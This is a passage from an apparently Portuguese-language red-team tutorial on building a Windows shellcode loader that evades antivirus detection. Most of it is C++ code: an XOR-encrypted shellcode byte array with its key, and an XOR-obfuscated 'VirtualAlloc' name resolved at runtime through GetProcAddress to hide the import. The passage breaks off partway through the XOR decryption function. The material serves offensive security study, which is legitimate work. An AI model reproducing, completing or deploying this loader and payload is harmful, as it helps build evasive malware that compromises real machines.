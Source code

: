 
![](/img/posts/Pasted%20image%2020240724145636.png)

A declaração das variáveis fica da seguinte forma:

```cpp
// XOR encrypted da VirtualAlloc
unsigned char cVA[] = {0x61, 0x01, 0x41, 0x38, 0x45, 0x12, 0x5b, 0x02, 0x58, 0x1e, 0x0c, 0x53};
unsigned int cVALen = sizeof(cVA);
```

Na função `main` chamamos a função `XOR` para aplicar o **XOR *encryption*** em tempo de execução e a referenciamos na função `GetProcAddress` ao invés de chamar por uma *string*:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char shellcode[] = {0x06, 0xa8, 0x57, 0xed, 0x00, 0x73, 0x37, 0x43, 0xbf, 0x32, 0x6f, 0xbb, 0x33, 0x20, 0xbc, 0x68, 0xb8, 0x4c, 0xbb, 0x2b, 0x27, 0x72, 0xe6, 0x1a, 0x10, 0x43, 0x3d, 0x7a, 0x51, 0xe9, 0x5f, 0x68, 0x32, 0x3d, 0x79, 0x2b, 0x50, 0x16, 0x11, 0x55, 0x1b, 0x46, 0x58, 0x0b, 0x72, 0x24, 0x77, 0x16, 0x43, 0x13, 0xbf, 0x21, 0x5f, 0x31, 0xa9, 0xbf, 0x65, 0x10, 0x32, 0x96, 0xbb, 0x39, 0x17, 0x42, 0xed, 0xfb, 0x2e, 0xcc, 0xf8, 0x66, 0x2b, 0x69, 0xe9, 0x7d, 0xf0, 0x42, 0xfe, 0xca, 0xd2, 0xf9, 0x1e, 0xcc, 0xf8, 0x08, 0xb0, 0x69, 0xec, 0x2a, 0xb3, 0xb2, 0x30, 0xb0, 0x52, 0xd5, 0x17, 0x33, 0x33, 0xd6, 0xdf, 0xeb, 0xf3, 0x4e, 0xbb, 0x4f, 0xb5, 0x42, 0xeb, 0xfb, 0x9e, 0x01, 0xba, 0x65, 0x5f, 0x09, 0x41, 0x35, 0x71, 0x1b, 0x7b, 0x2a, 0x56, 0x00, 0x0b, 0x7c, 0x1c, 0x55, 0x53, 0x3c, 0x60, 0xb3, 0xe5, 0x1b, 0x04, 0x71, 0x7a, 0x3c, 0x05, 0xb1, 0x1f, 0x10, 0x35, 0x26, 0x7d, 0x24, 0x47, 0x00, 0x05, 0x1c, 0x60, 0x8d, 0xb3, 0xb9, 0xb5, 0x5c, 0x42, 0x18, 0x7d, 0x02, 0x56, 0xf2, 0x5b, 0x67, 0x36, 0x3c, 0x2d, 0x58, 0x07, 0x55, 0x45, 0x1c, 0x5b, 0x1b, 0x63, 0x32, 0x64, 0x17, 0x62, 0x8d, 0xb6, 0x01, 0xa1, 0x52, 0x8d, 0xf8, 0x32, 0x65, 0xe4, 0x27, 0x65, 0xbc, 0xe4, 0x1a, 0x17, 0x71, 0x3d, 0x7a, 0x51, 0xe9, 0x5f, 0x68, 0x32, 0x3d, 0x79, 0x2b, 0x5b, 0x11, 0x08, 0x55, 0x1b, 0x63, 0x64, 0x29, 0x60, 0x18, 0x66, 0x8c, 0xe2, 0x72, 0xe6, 0x20, 0x31, 0x62, 0xc1, 0x32, 0x65, 0xe8, 0xd9, 0x49, 0x62, 0x31, 0x65, 0xbc, 0xe4, 0x22, 0x3c, 0x58, 0x16, 0x57, 0x43, 0x26, 0x55, 0xcf, 0x5c, 0x57, 0x34, 0x0d, 0x5c, 0x11, 0x0c, 0x5e, 0x1d, 0x60, 0x61, 0x97, 0xe6, 0xf6, 0xf1, 0xda, 0x7f, 0xc2, 0xb5, 0x98, 0x62, 0x31, 0x72, 0x35, 0x65, 0x0e, 0x5b, 0x6c, 0xcb, 0x42, 0xe5, 0xf1, 0x36, 0x14, 0x31, 0xb9, 0x91, 0x5e, 0x27, 0x3a, 0x64, 0xb3, 0xe0, 0x1b, 0x44, 0x02, 0x7a, 0x3c, 0x05, 0xb1, 0x1f, 0x10, 0x35, 0x26, 0x7d, 0x24, 0x5f, 0x10, 0x52, 0x30, 0x5c, 0x06, 0x06, 0x60, 0x01, 0x5c, 0x74, 0x1a, 0x56, 0x2d, 0x64, 0x20, 0xc8, 0x96, 0xbd, 0xac, 0x0b, 0x53, 0x1e, 0x50, 0x79, 0x0e, 0xb0, 0x20, 0x14, 0x70, 0x79, 0xca, 0xd7, 0x25, 0x34, 0x67, 0x42, 0xcb, 0x5d, 0x7a, 0x6a, 0x1b, 0xd2, 0x8e, 0x51, 0x84, 0x70, 0x56, 0x5f, 0x31, 0x72, 0xf2, 0x73, 0x4c, 0x23, 0x08, 0xbd, 0x3f, 0x13, 0x53, 0x60, 0x23, 0x34, 0x67, 0x24, 0x73, 0x60, 0x27, 0x64, 0x1b, 0x63, 0x24, 0xc8, 0x93, 0x5c, 0x17, 0x10, 0x43, 0x3d, 0x52, 0xb4, 0x04, 0x17, 0x4f, 0x7e, 0x1b, 0x67, 0x31, 0x5b, 0x11, 0x0b, 0x75, 0x0b, 0x5d, 0x43, 0x3c, 0x65, 0xb3, 0xe5, 0x42, 0xfe, 0x12, 0xcb, 0xa2};

unsigned int shellcode_size = sizeof(shellcode);

char xor_key[] = "7h3L0s7C4rc0s4";

LPVOID (WINAPI * pVA)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD  flProtect);

// XOR encrypted da VirtualAlloc
unsigned char cVA[] = {0x61, 0x01, 0x41, 0x38, 0x45, 0x12, 0x5b, 0x02, 0x58, 0x1e, 0x0c, 0x53, 0x73};
unsigned int cVALen = sizeof(cVA);

void XOR(char * data, size_t data_len, char * key, size_t key_len) {
    int a;
    a = 0;

```